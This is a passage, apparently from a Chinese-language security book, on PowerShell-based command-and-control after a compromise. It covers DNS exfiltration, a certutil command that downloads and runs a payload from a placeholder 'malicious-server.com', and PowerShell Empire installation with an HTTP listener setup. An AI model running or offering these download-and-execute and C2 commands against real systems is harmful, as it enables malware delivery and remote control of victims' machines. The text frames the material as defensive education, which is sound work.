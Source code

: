在这个示例中，PowerShell 脚本编码数据并使用 DNS 请求将信息发送到 C2 服务器。

## 利用现有工具技术

PowerShell 允许攻击者利用合法的系统工具进行恶意用途，使得检测变得具有挑战性。以下示例说明了利用现有工具技术：

```
 # Use built-in tool (certutil) for downloading payload
certutil.exe -urlcache -split -f htt p://maliciou s-server.com/malicious-payload.exe
# Execute the downloaded payload
Start-Process -FilePath "C:\Windows\Temp\malicious-payload.exe"
```

在这个实例中，攻击者利用内置的 `certutil` Windows 工具下载一个有效载荷，展示了使用合法工具进行恶意活动。

PowerShell 组件为攻击者提供了一个多功能工具包，用于在后期利用过程中实施 C2。了解这些组件对于防御者有效地检测和缓解此类威胁至关重要。通过监控 PowerShell 活动、采用行为分析并实施强有力的安全措施，组织可以增强其抵御基于 PowerShell 的 C2 攻击的能力。

# 使用 Empire 进行 C2

PowerShell Empire 是一个开源的后期利用框架，因其多功能性而在渗透测试人员和红队成员中广受欢迎。本次全面的探索深入剖析了其复杂性，并演示了它如何在后期利用过程中实施（C2）。

## PowerShell Empire 简介

PowerShell Empire 是一个后期利用框架，旨在为安全专业人员模拟 **高级持续性威胁**（**APT**）场景。它利用 PowerShell 提供一个模块化和可扩展的平台，用于进攻性安全操作。

### 安装和设置

在深入探讨示例之前，让我们先了解一下 PowerShell Empire 的安装和设置：

```
 # Clone the Empire repository from GitHub
git clone http s://githu b.com/BC-SECURITY/Empire.git
# Change into the Empire directory
cd Empire
# Run the setup script
./setup/install.sh
```

安装完成后，启动 Empire 控制台：

```
 # Launch the Empire console
./empire
```

这将打开 Empire 控制台，操作员可以在其中与各种模块交互并配置 C2 的监听器。

### C2 的监听器

Empire 使用监听器来建立 C2 通道。让我们创建一个基本的 HTTP 监听器：

```
 # Within the Empire console
listeners
uselistener http
set Name http_listener
set Host 0.0.0.0
set Port 8080
execute
```

